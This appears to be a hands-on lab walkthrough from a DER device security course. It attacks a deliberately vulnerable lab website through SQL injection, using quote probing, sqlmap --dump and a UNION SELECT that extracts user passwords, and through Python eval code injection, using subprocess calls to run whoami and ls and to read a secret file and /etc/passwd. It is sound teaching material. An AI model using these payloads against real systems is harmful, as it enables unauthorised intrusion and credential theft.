

Web Exploitation¶
-
On the Kali machine, open the Firefox browser and go to
10.10.0.100to pull up the DER website. Click the icon or enter the following into the terminal to start the browser:firefox
You will see some power, voltage, and frequency from the DER device. There are also some simple tab applications:
Firmware,Calculator, andGrid Information. These were added to demonstrate different forms of website vulnerabilities.
SQL injection¶
A Joke to Start
 From: http://xkcd.com/327/
From: http://xkcd.com/327/
- Click on the
Grid Informationlink to bring uphttp://10.10.0.100/gridin the browser. -
Notice the list of grid codes available for this device.

-
Clicking on
AsiaorEuropelinks will show the options for that continent, e.g.,http://10.10.0.100/grid?continent=Asia -
It looks like this URL is using some kind of database to store information. It could be vulnerable to SQL injection attacks depending on how it's parsing the inputs. To help us quickly test different exploits, let's use
curlto get the website contents:curl http://10.10.0.100/grid?continent=Asia -
Websites require inputs to be URL encoded. To save us the trouble of manually converting the data, we can have curl do this for us:
curl --get --data-urlencode "continent=Asia" http://10.10.0.100/gridThe results will be the same as before.
-
Now, let's try to see if we can see if can determine if this is a SQL database by terminating the input string and producing an error. Typical string terminators are
",', and`.curl --get --data-urlencode "continent=\"" http://10.10.0.100/gridcurl --get --data-urlencode "continent='" http://10.10.0.100/gridIn the second case, we get an interesting error:
unrecognized token: "''';". Googling this we see this is a error common in SQLite applications. That confirms our suspicion that these queries are tied to a SQL database. -
There are tools that can help to automate SQL injection attacks. One included on the Kali machine is
sqlmap. We can test it out by running the following:sqlmap -u http://10.10.0.100/grid?continent=Asia -p continent --dumpwhere the
continentparameter is used for the injection and--dumpindicates thatsqlmapshould dump the full contents. You can answer the questions with the following:Y,Y,NDid we find anything interesting?


NOTE: sqlmap will sometimes fail if the queries do not return in time. If it fails, try a few more times.
-
Note we can also manually exploit this system if we know how to craft the request. The single quote
'is used for the end of a string input. We can use this to end the entry and then add another query as long as we terminate the request with a comment using either a*/, C-style comment block, of the SQL comment--.Try to get the user passwords with the curl command:
curl --get --data-urlencode "continent=' UNION SELECT username, password, 1 from USERS --" http://10.10.0.100/gridAnd enter the following into the browser URL:
http://10.10.0.100/grid?continent=' union select username, password, 1 from users --which becomes
http://10.10.0.100/grid?continent=%27%20union%20select%20username,%20password,%201%20from%20users%20/*when URL encoded.
Command/Code Injection¶
-
Go to the solar website at
http://10.10.0.100/calculator. In the first field, the form is running python code that includes anevalstatement. It can be used as a calculator. For instance, enter the following:5+78*54**2Did it return the expected results?
-
Python
evalstatements will execute arbitrary code and, therefore, it is a well-known vulnerability. So instead of entering, an equation, let’s start a subprocess to print the user that is running the website withwhoami. You can also print the values of the website’s directory with thelscommand.__import__("subprocess").getoutput("whoami")__import__("subprocess").getoutput("ls")
-
If you look at the output, you can see that there’s a file called
super_secret_info.txt. Let’s go ahead and see what’s in that file.__import__("subprocess").getoutput("cat super_secret_info.txt")We see the following result:
Result: VNC password = superman -
Now let’s see if we can dump the users names from the linux machine.
__import__("subprocess").getoutput("cat /etc/passwd")So, we can see there’s a vnc user on the machine. Maybe we can get it using VNC.